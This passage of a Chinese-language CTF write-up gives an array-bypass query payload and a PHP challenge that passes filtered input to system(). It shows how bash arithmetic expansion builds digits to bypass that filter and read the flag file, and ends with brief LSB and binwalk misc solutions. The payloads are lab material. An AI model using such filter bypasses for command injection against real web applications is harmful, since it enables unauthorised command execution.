 abc 都可以采用数组绕过，payload：`?a[]=1&b[]=2&c[]=3`

拿到并访问 dollar.php，发现需要绕过过滤构造出 12

```php
<?php
//flag in 12.php
error_reporting(0);
if(isset($_GET['x'])){
    $x = $_GET['x'];
    if(!preg_match("/[a-z0-9;`|#'\"%&\x09\x0a><.,?*\-=\\[\]]/i", $x)){
            system("cat ".$x.".php");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

在 linux 的终端中，输入$(())可以构造出0，再进行取反$((~$(())))就可以构造出-1，其原理是对其二进制取反，00000000->0 取反则变成 11111111->-1

我们再将两个-1 合在一起并取反则是 ~(-2)->1

即$((~$(($((~$(())))$((~$(())))))))

由此我们可以构造出任意的数字，这里的 12 可以是对-13 取反为 12，

也可以是-2 取反和-3 取反之后合并为 12，这里我使用后者

**预期 payload：**

```assembly
?x=$((~$(($(($((~$(())))$((~$(())))))))))$((~$(($((~$(())))$(($((~$(())))$((~$(())))))))))
```

> 题目描述已经把预期 paylaod 字符全给了，其他姿势就请自行搜索了 0.0

姬宝的好东西->[https://github.com/ProbiusOfficial/bashFuck](https://github.com/ProbiusOfficial/bashFuck)

## MISC

### 涐贪恋和伱、甾―⑺dé 毎兮毎秒

lsb 隐写最低位

![](https://s2.loli.net/2024/06/05/zkgOVWDn8GK5qvc.png)

### 你说的对，但__

拿到附件 binwalk 分离出多张图片

![](https://s2.loli.net/2024/06/05/kxKWbZJfSdOPva8.png)

![](https://s2.loli.net/2024/06/05/mbrKwZNzSIxlD71.png)

拼好扫描得到 flag
